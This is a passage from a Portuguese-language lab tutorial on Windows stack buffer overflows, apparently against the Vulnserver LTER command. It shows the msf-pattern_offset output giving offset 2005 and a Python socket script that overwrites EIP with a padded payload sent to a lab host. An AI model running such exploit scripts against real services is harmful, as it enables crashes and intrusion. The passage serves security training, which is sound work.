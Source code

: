 Vamos monitorar o envio com o Immunity.

![Enumaração do comando.](/img/std/winbof/winbof-81.png)

Encontramos o offset 6f43386f, consultando no msf-patter_offset:

```bash
$ msf-pattern_offset -l 3000 -q 6f43386f 
[*] Exact match at offset 2005
```

Para atingir o EIP, precisamos de 2005 bytes, vamos atualizar nosso script e monitorar o comportamento.

xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * 2005
payload += b"B" * 4
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```
